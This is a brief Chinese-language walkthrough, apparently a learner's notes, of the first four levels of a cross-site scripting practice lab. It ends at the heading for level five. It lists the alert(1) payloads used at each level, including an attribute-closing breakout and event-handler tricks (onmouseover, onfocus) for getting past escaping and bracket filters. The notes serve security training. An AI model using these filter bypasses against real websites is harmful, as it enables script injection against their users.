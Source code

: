 level1  

<img src="D:\31765\Pictures\Screenshots\屏幕截图 2024-03-03 000038.png" alt="屏幕截图 2024-03-03 000038" style="zoom:30%;" />

在url处发现注入点，`<script>alert(1)</script>`    

level2  

发现注入点，键入`<script>alert(1)</script>`  

![屏幕截图 2024-03-03 001547](D:\31765\Pictures\Screenshots\屏幕截图 2024-03-03 001547.png)出错了  

查看源码  

![屏幕截图 2024-03-03 001747](D:\31765\Pictures\Screenshots\屏幕截图 2024-03-03 001747.png)

可以看到目标被放到value中，需要先构造闭合：`"><script>alert(1)</script>//`    

laval3  

![屏幕截图 2024-03-03 002602](D:\31765\Pictures\Screenshots\屏幕截图 2024-03-03 002602.png)测试，无动静，查看源码，多了个转义函数，考虑用onmouseover事件  

`'onmouseover=alert(1)//`  

level4  

![屏幕截图 2024-03-03 003610](D:\31765\Pictures\Screenshots\屏幕截图 2024-03-03 003610.png)

`"<script>alert(1)</script>`  

发现`<>`被过滤，使用`"onfocus=javascript:alert(1)`绕过  

level5